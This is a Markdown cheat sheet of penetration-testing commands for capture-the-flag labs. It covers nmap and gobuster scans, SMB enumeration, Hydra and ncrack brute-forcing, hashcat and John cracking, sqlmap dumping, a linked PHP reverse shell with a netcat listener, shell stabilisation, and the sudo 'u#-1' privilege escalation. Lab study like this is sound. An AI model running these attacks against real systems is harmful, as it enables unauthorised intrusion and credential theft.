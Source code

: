 # Common CTF References

## Kali box setup
tryhackme virtual box do not have pip installed.
```
sudo apt install python3-pip
```

install gobuster as well
```
sudo apt-get install gobuster
```

- Install webapplyzer browser add on.
- Setup Burpsuite and foxyproxy.
- install assetfinder
```
go get -u github.com/tomnomnom/assetfinder
```
- download impacket
```
git clone https://github.com/SecureAuthCorp/impacket.git
```

## IP setup

note that in this script below, I made an assumption that you have assigned ```IP``` to the target's IP address:
```bash
export IP=<ip address>
```

## Nmap
Normal full port scan:
```bash
nmap -sC -sV -p- -oN <file directory> $IP
```

Nmap scanning samba ports:
```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse $IP
```

Nmap scanning for vulnerability script:
```bash
nmap $IP --script=/usr/share/nmap/scripts/vulners.nse -sV
```

## Nikto
```bash
nikto -h $IP
```

##  Gobuster

Normal medium wordlist directory scan:
```bash
gobuster dir -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Scanning with extensions example ```php``` and ```txt```:
```bash
gobuster dir -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.txt
```

## Samba
Through Nmap:
```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse $IP
```

Through enum4linux:
```bash
enum4linux -A $IP
```

Accessing Samba:
```bash
smbclient //$IP/[SHARE]
```

With user and port add:
```
-U [name] : to specify the user

-p [port] : to specify the port
```

## Telnet
Accessing Telnet:
```bash
telnet $IP [port]
```

## FTP
[FTP pentest article](https://book.hacktricks.xyz/pentesting/pentesting-ftp)

bruteforce works too:
```
hydra -t 4 -l <user> -P /usr/share/wordlists/rockyou.txt -vV 10.10.10.6 ftp

OR

root@kali:~/Downloads# ncrack --user "ftpuser" -P passwords.txt ftp://10.10.145.113
```

Simple FTP syntax
```
lcd <set your download directory>
get file
put file
mget *
mget *.txt
```

## Hydra Brute-Forcing
With known user and unknown password:
```bash
hydra -l <username> -P /usr/share/wordlists/rockyou.txt ssh://$IP
```

with unknown user and unknown password:
```bash
hydra -l /path/to/user/list -P /usr/share/wordlists/rockyou.txt ssh://$IP
```

force http-get
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 3000 -f $IP http-get /<address>
```

## Sample Hashcat Brute-Forcing
```bash
hashcat -D 1 -m 1800 hash.txt /usr/share/wordlists/rockyou.txt --force
```
## Sample John The Ripper Brute-Forcing
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

## SQLmap
```bash
sqlmap -u $IP
```

if you know the database type
```bash
sqlmap -u $IP --dbms==sqlite --dump
```

## Reverse Shell

[Pentestmonkey's php reverse shell] (https://github.com/pentestmonkey/php-reverse-shell)
-Remember to change the IP address and port in the php script

[Renaming reverse shell ext](https://d00mfist.gitbooks.io/ctf/content/bypass_image_upload.html)


## Netcat
```
nc -lvpn <port>
```

## Stablising Shell
- type the following:
```bash
python -c "import pty; pty.spawn('/bin/bash')"
```

OR

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

- press ```ctrl+z``` to bring shell to foreground

- type:
```bash
stty raw -echo
fg
```

- press ```Enter``` a few times to get back the shell

- type:
```bash
export TERM=xterm
```

- press ```crtl+l``` to get a clean and stable shell.

## Finding Exploit For Privilege Escalation

1. You can type ```sudo -l``` to see if any sudo permission is given.

2. you can use ```find / -perm -u=s -type f 2>/dev/null``` to find exploit files to run without ```sudo```. SUID bits can be dangerous, some binaries such as passwd need to be run with elevated privileges (as its resetting your password on the system), however other custom files could that have the SUID bit can lead to all sorts of issues.

3. you get find possible escalation scripts at [GTFObins](https://gtfobins.github.io/)

4. [CVE-2019-14287 user sudo -u#-1](https://www.whitesourcesoftware.com/resources/blog/new-vulnerability-in-sudo-cve-2019-14287/)
```
User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
    
#you can run the following below as sudo
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```
```
User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/chmod

# you can run
sudo -u#-1 /usr/bin/chmod
```
- Follow GTFO to escalate the ```bin/sh```

## Recommended Burpsuite Additional Module Copy As Python-Requests
1. Go to ```Extender``` Tab
2. Under ```BApp Store``` Tab
3. Search for ```Copy As Python-Requests```
4. This allows you to change the get or post requests into a python format when you right click on the ```intercept``` response and choose ```Copy As Python-Requests```
5. Good for python scripting.
